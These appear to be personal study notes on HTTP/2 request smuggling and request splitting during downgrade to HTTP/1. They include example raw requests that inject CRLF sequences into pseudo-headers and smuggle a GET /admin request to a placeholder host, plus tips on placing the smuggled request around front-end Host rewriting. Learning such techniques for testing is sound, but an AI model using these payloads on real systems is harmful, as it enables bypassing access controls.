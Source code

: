 ## Injecting Newline into pseudo-headers

- when inejcting `:path` or `:method` , make sure that resultign http/1 request still has valid request line
- `\\r\\n` terminate request line in http/1 , adding `\\r\\n` will just break the request after downgrading sequence should be `method space path space HTTP/1.1`**front-end(http/2)**

```
:method GET
:path /example HTTP/1.1\\r\\n
	  Transfer-Encoding: chunked\\r\\n
	  X: x
:authoroty vuln-web.com

```

**back-end(HTTP/1)**

```
GET /example HTTP/1.1\\r\\n
Transfer-Encoding: chunked\\r\\n
X: x HTTP/1.1\\r\\n
Host: vuln-web.com\\r\\n
\\r\\n

```

# HTTP/2 request Splitting

- we have see in Response queue poisoning, how we split 1 request in 2 complete requests on back-end.
- previously we have seen the spliting occured inside message body, but When HTTP/2 downgrading is in play, we can also cause this split to occur in header instead
- this approach is versatile beacuse we aren't depand on reqeust methods that are followed to contain a body

```
:method GET
:path /
:authority vuln-web.com
foo bar \\r\\n
	\\r\\n
	GET /admin HTTP/1.1\\r\\n
	Host: vul-web.com

```

- this also usefull when `Content-length:` is validated and back-end doesnt support chunked encoding

## Accounting for front-end rewriting

- when request is downgraded to http/1 the front-end server add headers manually
- so when putting Host header for 2 nd request ,keep in mind where the front-end server convert :authority to host header and put, if it puts in middle or as it is we need to put smuggled request in last header
- if front-end servert puts host header in end of all header, we need to put smuggled request to upper so that our both request contian `Host` header when downgraded, and both request acceptd, other wise 1 request have 2 host header and 1 have 0
- keep this in mind

